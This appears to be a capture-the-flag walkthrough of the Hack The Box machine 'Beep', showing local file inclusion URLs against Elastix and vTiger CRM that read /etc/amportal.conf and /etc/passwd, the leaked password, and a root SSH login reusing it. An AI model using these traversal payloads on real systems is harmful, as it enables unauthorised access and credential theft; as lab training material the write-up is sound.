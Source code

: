 ## Foothold

### LFI leaked Credential

At exploit `php/webapps/37637.pl`, I saw the LFI Exploit showing the amportal.conf contain password `jEhdIekWmdjE`. This password have been used to any account listed in file.

```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

```
<snip>
AMPDBPASS=jEhdIekWmdjE
AMPMGRPASS=jEhdIekWmdjE
FOPPASSWORD=jEhdIekWmdjE
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

Make a guess, I try this password with root's ssh credential.

```
┌──(Hades㉿10.10.14.5)-[2.1:30.7]~/walkthrough/hackthebox/beep
└─$ ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Fri Apr  2 10:27:42 2021 from 10.10.14.5

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]#
```

### LFI and Postfix smtpd

After gathering information in the server, I have 2 LFI vulnerabilities:

1. Elastix 2.2.0 - 'graph.php' Local File Inclusion
2. vTiger CRM 5.1.0 - Local File Inclusion

Get the user account in the server.

```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../../../../..//etc/passwd%00&module=Accounts&action
```

```
view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00&cmd=id
```
